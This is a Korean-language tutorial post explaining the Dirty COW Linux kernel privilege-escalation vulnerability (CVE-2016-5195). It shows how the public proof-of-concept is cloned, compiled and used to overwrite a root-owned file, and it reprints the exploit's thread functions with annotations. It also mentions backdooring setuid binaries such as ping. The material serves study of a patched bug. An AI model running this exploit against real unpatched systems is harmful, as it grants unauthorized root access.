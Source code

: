 # Explaining Dirty COW local root exploit

#### CVE-2016-5195

7월 3, 2018 willwayy 이정모



일단 2016년도에 나온 취약점인 만큼 이미 패치는 되어있는 상태이다.  하지만 이걸 보여주고 어떻게 작동하는지 연구하고 전반적으로 이 취약점에 대해 이야기 하고자 한다.



백문불여일견 [百聞不如一見] 일단 먼저 설치된 `dirtc0w` 가 먹히는 우분투 시스템에서 실습 먼저 보여주도록 하겠다.

------

#### Ubuntu 14.04

```bash
$ git clone https://github.com/dirtycow/dirtycow.github.io.git
$ cd dirtycow.github.io/
$ ls
CNAME    favicon.ico  index.html  README.md
cow.svg  dirtyc0w.c  pokemon.c
```



##### compile

```bash
$ gcc -pthread dirtyc0w.c -o dirtyc0w
```

> -pthread : 스레드에 대한 컴파일을 구성 할뿐만 아니라 pthread 라이브러리에서 링크하도록 컴파일러에 지시한다.



자 환경은 다 완성했으니, 시나리오를 일단 짜보자.

1. 정상적인 사용자가 쓸 수 없는 루트에 속한 파일을 만든다. (여 문서에서는 foo 라는 이름으로 만들어 볼 것이다)

2. foo 라는 파일은 root 가

    소유하고 있으므로 일반적인 사용자는 w 할 수 없는 상황이다.

3. 이제  `dirtyc0w` 를 실행하여 루트파일을 전달하고 작성하려는 문자열을 지정하면 문자열이 파일에 기록된다..?

해.보.자

------

##### 루트권한 파일 생성 (foo)

```bash
$ sudo -s
[sudo] password for willwayy: 
# echo Can you write it? > foo
# ls
CNAME    dirtyc0w    favicon.ico  index.html  README.md
cow.svg  dirtyc0w.c  foo          pokemon.c
# cat foo
Can you write it?
```

> -r-----r--  1 root     root         18 Jul  3 22:28 foo



##### 일반 사용자가 foo 파일 수정

```bash
$ echo Yes I can! > foo
bash: foo: Permission denied
$ echo Yes I can! >> foo
bash: foo: Permission denied
```

> 당연히 되지 않는다. 일반 사용자니깐!



##### 일반 사용자가 `dirtyc0w` 를 이용해 foo 파일 수정

```bash
$ ./dirtyc0w foo "Yes I can!"
```

> <img src="https://user-images.githubusercontent.com/24206298/42303758-a6d18594-805d-11e8-8dbb-c0a867e091b2.png" style="zoom:150%" />
>
> 일반사용자인데 루트권한의 파일을 수정했다....?   했네 했어..



정말 미친 취약점이다. 이게 만약 `ping` 과 같은 파일 시스템 (`ping ` 도 마찬가지로 root 에 속하며 setuid 설정이 되있다) 같이 누구나 루트권한으로 실행시킬 수 있는 시스템에 backdoor() 를 심어놓는다면 이건 엄청난 문제가 발생하게 되는 것이다..

##### 자 그럼 이제 심각성을 알아봤으니 `dirtyc0w` 의 소스코드를 살펴보자.

------

#### main( )

```c
// 주석 생략
int main(int argc,char *argv[])
{
  if (argc<3) {
  (void)fprintf(stderr, "%s\n",
      "usage: dirtyc0w target_file new_content");
  return 1; }
  pthread_t pth1,pth2;

  f=open(argv[1],O_RDONLY);										// *
  fstat(f,&st);
  name=argv[1];

  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);			// *
  printf("mmap %zx\n\n",(uintptr_t) map);

  pthread_create(&pth1,NULL,madviseThread,argv[1]);				// *
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);			// *

  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
}
```

> 1. *`f=open(argv[1],O_RDONLY);*
>    - root 파일을 READ_ONLY로 쓰려는 파일을 연다.
> 2. *map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);*
>    - 가상 메모리에서 물리 메모리로 page-in 된 후 MADV_DONTNEED 플래그로 page-out을 시도하게 되면 'dirtybit' 플래그가 파일이 변경되었음을 나타내고 copy-on-write를 시도하게 된다. copy-on-write를 시작할 때 MAP_PRIVATE 인수를 사용할 경우 다른 프로세스는 파일 변경 여부를 확인할 수 없게 되며, mmap() 호출은 매핑 된 영역에서 확인 가능하다.
> 3. *pthread_create(&pth1,NULL,madviseThread,argv[1]); pthread_create(&pth2,NULL,procselfmemThread,argv[2]);*
>    - 다음으로 병렬로 실행될 2개의 스레드를 실행한다. `dirtyc0w` 는 `Race condition` 취약점으로 특정 이벤트가 특정 순서대로 발생해야한다는 것을 의미한다. 그러니 실패할 시 우연이 아닌 확률에 맞서서 반복해 시도해보면 된다. 그러면 두 스레드가 무엇을 하는지 보자.



#### *madviseThread( )

```c
void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
    
  for(i=0;i<100000000;i++)
  {
    c+=madvise(map,100,MADV_DONTNEED);				// *
  }
  printf("madvise %d\n\n",c);
}
```

> 1. *madvise(map,100,MADV_DONTNEED);*
>    - madvise 함수는 메모리를 쓰기 전에 커널에 메모리 공간을 준비해주는 기능을 한다.
>      - 프로그램을 실행하면 하드디스크에 있는 데이터가 메모리에 캐싱되어 동작하게 된다. 왜냐하면 하드디스크 보다 메모리가 빠르기 때문이다. 메모리에 데이터가 캐싱 될 때는 딱 필요한 코드 부분만 캐싱되는 것이 아니라 필요한 코드 앞 뒤 코드도 같이 캐싱 된다. 왜냐하면 다시 실행 될 가능성이 높기 때문에 페이지 단위로 된다. 이것을 페이징이라고 한다.
>      - madvise를 쓰는 이유는 용량이 큰 파일의 경우 madvise 함수를 써서 미리 메모리 공간을 마련해 놓으면 성능이 올라가기 때문이다.
>    - 해당 함수를 통해 100,000,000회를 반복하여 메모리 mapped 상태를 유지하도록 한다.
>    - 그래서 이 코드에서는 madvise() 함수를 통해 메모리의 mmaped 상태를 유지시키며, MADV_DONTNEED 인수를 사용하여 지정된 메모리 주소 범위가 더 이상 필요하지 않음을 커널에게 알린다.
>    - madvise() 함수가 성공적으로 완료됐을 경우 0, 실패할 경우 -1과 error 메시지를 반환한다.



#### *procselfmemThread( )

```c
void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;

  int f=open("/proc/self/mem",O_RDWR);				// *
  int i,c=0;
  for(i=0;i<100000000;i++) {

    lseek(f,(uintptr_t) map,SEEK_SET);				// *
    c+=write(f,str,strlen(str));
  }
  printf("procselfmem %d\n\n", c);
}
```

> `Race condition` 을 시도하기 위해 사용되는 함수이며 madviseThread()함수와 동일한 횟수로 반복문 사용한다.
>
> 1. *int f=open("/proc/self/mem",O_RDWR);*
>    - "/proc/self/mem"은 가상 메모리를 보여주는 바이너리 파일인데 해당 파일을 O_RDWR(읽기와 쓰기 모두 가능) 모드로 연다.
> 2. *lseek(f,(uintptr_t) map,SEEK_SET);*
>    - 파일내용을 변조하기 위해 lseek() 함수를 사용하여 파일 포인터 위치를 매핑되어 있는 메모리 주소로 이동시킨다. 그리고 포인터가 이동된 뒤 write() 함수를 사용하여 가상 메모리 바이너리 파일 내용 변경을 시도한다.



------

그림으로 쉽게 설명하자면, 



#### 정상적인 로직

<img src="https://user-images.githubusercontent.com/24206298/42303760-ac5529ee-805d-11e8-9e93-f95d36e22cea.png" style="zoom:00%" />

> 정상적으로 프로세스가 순차적으로 실행될 경우 위와 같이 자원을 복사하여 사용하고 해제해 문제가 발행하지 않는다.

#### dirtyc0w 가 발생하는 로직

<img src="https://user-images.githubusercontent.com/24206298/42303759-ac161a56-805d-11e8-9bde-8914881381b7.png" style="zoom:85%" />

> 하지만 Thread 1 이 가피본을 만들기 전, 카피본의 자원을 해제하는 Thread 2 가 먼저 실행될 경우 원본과 카피본을 혼동하여 위의 그림과 같은 문제가 발생되는 것이다. (ping 은 setuid 비트가 설정되어 있어 root 권한으로 실행되기 때문에 쉘도 root 권한으로 생성되는것..)

